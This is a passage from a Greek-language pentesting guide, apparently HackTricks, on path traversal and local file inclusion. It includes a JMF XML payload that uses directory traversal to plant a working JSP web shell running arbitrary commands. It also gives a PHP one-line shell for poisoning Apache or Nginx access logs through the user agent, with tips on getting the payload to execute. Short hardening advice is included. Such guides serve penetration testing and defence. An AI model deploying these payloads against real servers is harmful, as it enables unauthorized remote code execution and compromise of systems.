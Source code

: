Γενικό παράδειγμα στυλ XML/JMF (τα σχήματα προϊόντων διαφέρουν – η περιτύλιξη DOCTYPE/body είναι ασήμαντη για τη διαδρομή traversal):
```xml
<?xml version="1.0" encoding="UTF-8"?>
<JMF SenderID="hacktricks" Version="1.3">
<Command Type="SubmitQueueEntry">
<!-- Write outside the intake folder into the webroot via traversal -->
<Resource Name="FileName">../../../webapps/ROOT/shell.jsp</Resource>
<Data>
<![CDATA[
<%@ page import="java.io.*" %>
<%
String c = request.getParameter("cmd");
if (c != null) {
Process p = Runtime.getRuntime().exec(c);
try (var in = p.getInputStream(); var out = response.getOutputStream()) {
in.transferTo(out);
}
}
%>
]]>
</Data>
</Command>
</JMF>
```
Hardening που καταπολεμά αυτή την κατηγορία σφαλμάτων:
- Επίλυση σε μια κανονική διαδρομή και επιβολή ότι είναι απόγονος ενός επιτρεπόμενου βασικού καταλόγου.
- Απόρριψη οποιασδήποτε διαδρομής που περιέχει `..`, απόλυτες ρίζες ή γράμματα δίσκων; προτίμηση σε παραγόμενα ονόματα αρχείων.
- Εκτέλεση του συγγραφέα ως λογαριασμός με χαμηλά δικαιώματα και διαχωρισμός των καταλόγων εγγραφής από τις ριζικές διαδρομές που εξυπηρετούνται.

## Remote File Inclusion

Εξηγήθηκε προηγουμένως, [**ακολουθήστε αυτόν τον σύνδεσμο**](#remote-file-inclusion).

### Μέσω αρχείου καταγραφής Apache/Nginx

Εάν ο διακομιστής Apache ή Nginx είναι **ευάλωτος σε LFI** μέσα στη λειτουργία include, μπορείτε να προσπαθήσετε να αποκτήσετε πρόσβαση στο **`/var/log/apache2/access.log` ή `/var/log/nginx/access.log`**, ορίζοντας μέσα στον **user agent** ή μέσα σε μια **παράμετρο GET** ένα php shell όπως **`<?php system($_GET['c']); ?>`** και να συμπεριλάβετε αυτό το αρχείο.

> [!WARNING]
> Σημειώστε ότι **αν χρησιμοποιήσετε διπλά εισαγωγικά** για το shell αντί για **απλά εισαγωγικά**, τα διπλά εισαγωγικά θα τροποποιηθούν για τη συμβολοσειρά "_**quote;**_", **η PHP θα ρίξει ένα σφάλμα** εκεί και **τίποτα άλλο δεν θα εκτελεστεί**.
>
> Επίσης, βεβαιωθείτε ότι **γράφετε σωστά το payload** ή η PHP θα έχει σφάλμα κάθε φορά που προσπαθεί να φορτώσει το αρχείο καταγραφής και δεν θα έχετε δεύτερη ευκαιρία.
